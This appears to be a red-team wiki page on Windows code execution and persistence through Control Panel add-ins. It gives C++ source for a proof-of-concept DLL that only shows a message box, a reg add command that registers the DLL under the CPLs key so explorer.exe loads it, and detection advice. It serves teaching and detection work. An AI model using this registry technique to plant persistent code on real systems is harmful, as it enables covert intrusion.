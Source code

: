 # Code Execution through Control Panel Add-ins

It's possible to force explorer.exe to load your DLL that is compiled as a Control Panel Item and is registered as a Control Panel Add-in.

{% hint style="info" %}
This technique could also be considered for persistence.
{% endhint %}

## Execution

Let's compile our control panel item \(which is a simple DLL with an exported function `Cplapplet`\) from the below code:

```cpp
#include <Windows.h>
#include "pch.h"

//Cplapplet
extern "C" __declspec(dllexport) LONG Cplapplet(
    HWND hwndCpl,
    UINT msg,
    LPARAM lParam1,
    LPARAM lParam2
)
{
    MessageBoxA(NULL, "Hey there, I am now your control panel item you know.", "Control Panel", 0);
    return 1;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        Cplapplet(NULL, NULL, NULL, NULL);
    }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

Let's now register our control panel item as an add-in \(defenders beware of these registry modifications\):

```text
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Control Panel\CPLs" /v spotless /d "C:\labs\cplAddin\cplAddin\x64\Release\cplAddin2.dll" /f
```

![](../../.gitbook/assets/image%20%28603%29.png)

Now, whenever the Control Panel is opened, our DLL will be injected into explorer.exe and our code will execute:

![](../../.gitbook/assets/control-panel-item-addin.gif)

Below shows that our DLL is injected into explorer.exe:

![](../../.gitbook/assets/image%20%28526%29.png)

## Detection

* Look for modifications in the following registry key: `HKCU\Software\Microsoft\Windows\CurrentVersion\Control Panel\CPLs`
* Look for / prevent DLLs from loading from unsecure locations

## References

[https://www.welivesecurity.com/wp-content/uploads/2020/06/ESET\_InvisiMole.pdf](https://www.welivesecurity.com/wp-content/uploads/2020/06/ESET_InvisiMole.pdf)

